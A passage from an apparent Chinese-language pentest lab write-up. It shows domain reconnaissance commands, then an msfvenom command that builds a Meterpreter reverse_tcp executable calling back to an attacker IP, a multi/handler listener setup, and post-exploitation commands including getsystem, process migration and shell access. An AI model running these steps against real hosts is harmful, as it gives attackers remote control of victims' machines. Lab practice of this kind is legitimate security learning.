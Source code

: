 刚开始学习其实有点纠结于信息收集，其实信息收集按个人习惯就好，达到最终目的就可以了

```
whoami					# 查看权限；用户为god；权限为administrator，可以上传东东反弹shell~
ipconfig				# 看网卡
net config Workstation	# 查看当前登录域及登录用户信息
net view /domain:god	# 查看域成员
```

### MSF反弹shell

作为msf的一次练习，学习了
[渗透攻防工具篇-后渗透阶段的Meterpreter (seebug.org)](https://paper.seebug.org/29/)
[msf后渗透利用命令|MrWu](https://www.mrwu.red/web/2674.html)

那么先在msf弹一个shell：
msf生成一个payload上传到win7并执行，得到msf的session

```shell
# 这里的IP是攻击机也就是kali的ip，端口则是监听的端口：
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.244.128 LPORT=6666 -f exe -o hhh.exe

# 生成完毕给他777权限：
chmod 777 hhh.exe
```

![把他上传到win7](https://i.loli.net/2021/04/07/sIcoH1ZxDtWFORq.png)

然后在kali利用msf接收这个反弹shell：

```shell
msfconsole
use exploit/multi/handler     							# 进入模块
set payload windows/x64/meterpreter/reverse_tcp     	# 设置payload模块
set lhost 192.168.118.130     							# 设置要监听的地址
set lport 6666        									# 设置监听的端口
run														# 执行攻击（run|exploit都可以）
```

![](https://i.loli.net/2021/04/07/FmK9x4pGSjhtv2e.png)

然后在win7执行hhh.exe就可以拿到反弹shell了
可以看到拿到了一个meterpreter

![](https://i.loli.net/2021/04/07/mDq8K1uaRjpzTFy.png)



#### 迁移进程

```shell
一些msf的命令：
getuid		查看用户权限
getsystem	提权为管理员
sysinfo		查看系统信息
ps			查看进程
migrate pid	迁移进程至pid号进程
shell		进入主机的命令行
chcp 65001	设置活动代码页为UTF-8（936简体中文GBK，950繁体中文，437MS-DOS）
```
